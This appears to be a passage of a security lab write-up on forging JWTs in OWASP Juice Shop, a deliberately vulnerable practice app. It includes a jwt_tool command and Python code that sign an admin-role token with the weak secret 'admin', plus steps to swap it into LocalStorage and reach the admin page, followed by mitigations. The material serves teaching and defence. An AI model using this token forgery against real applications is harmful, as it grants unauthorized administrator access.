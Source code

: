  ```Example:
}
🔸 Sign New Token
Using jwt_tool.py:

bash
Copy
Edit
python3 jwt_tool.py <TOKEN> -S admin -I
Or with Python:

python
Copy
Edit
import jwt

secret = "admin"
payload = {
  "email": "admin@juice-sh.op",
  "role": "admin"
}
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
🔹 5. Replace and Access Admin Area
Open browser DevTools → LocalStorage

Replace the original token with the forged token

Refresh the application.

Navigate to /administration – admin-only content should now be available.

🔬 Post-Exploitation Observations
The server relied solely on JWT signature validation without re-verifying user roles.

The secret used to sign JWTs was predictable and easily crackable.

There was no token rotation or expiration, allowing persistent privilege escalation.

🛡️ Mitigation Strategies
Problem	Mitigation
Weak secret	Use a random, complex, high-entropy secret for signing JWTs
HS256 trust model	Prefer asymmetric keys (RS256) for better token verification
Token forgery	Verify roles/claims on the server-side for every request
Token longevity	Implement short-lived tokens + refresh mechanisms
JWT storage	Use HttpOnly, Secure cookies instead of LocalStorage

🧠 Final Thoughts
JWTs are a powerful way to manage stateless sessions, but when used with weak symmetric keys, they become a serious attack surface. This lab reinforces the importance of strong key management, server-side validation, and secure storage practices.

Security practitioners should always verify:

Token signing algorithm

Key strength and entropy

Trust boundaries of token content

This attack is commonly seen in:

Legacy applications using hardcoded JWT secrets

 ```